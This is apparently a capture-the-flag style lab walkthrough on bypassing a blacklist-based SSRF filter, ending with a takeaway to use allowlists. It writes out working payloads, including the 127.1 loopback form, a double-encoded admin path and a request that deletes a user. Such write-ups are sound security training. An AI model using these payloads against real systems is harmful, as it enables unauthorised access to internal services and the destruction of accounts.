









# Lab 3 — SSRF with blacklist-based input filter

> [← Back to SSRF](../README.md)

---

## 🎯 Objective
Bypass a blacklist filter blocking `localhost` and `127.0.0.1` to access the internal admin panel and delete carlos.

---

## 🪜 Steps

### Step 1 — Intercept the stock check request
Capture the request in Burp Repeater.




---

### Step 2 — Test SSRF — blocked
Try:
```
stockApi=http://127.0.0.1/
```
Response: `"External stock check blocked for security reasons"` — blacklist is active.



---

### Step 3 — Bypass IP filter
Try alternative IP representation:
```
stockApi=http://127.1/
```
Response: **200 OK** ✅ — internal access allowed!



---

### Step 4 — Try admin panel — blocked again
```
stockApi=http://127.1/admin
```
Blocked — keyword `admin` is also filtered.



---

### Step 5 — Bypass keyword filter with double encoding
Encode the letter `a` in `admin`:
- `a` → `%61` → double encoded → `%2561`

```
stockApi=http://127.1/%2561dmin
```
Response: **200 OK** — admin panel loaded! ✅



---

### Step 6 — Delete carlos
```
stockApi=http://127.1/%2561dmin/delete?username=carlos
```





---

## ✅ Result
Lab solved!

---

## 💡 Key Takeaway
Blacklist filters are bypassable with alternative IP representations (`127.1`, `0x7f000001`) and URL encoding tricks. Use allowlists instead of blocklists.
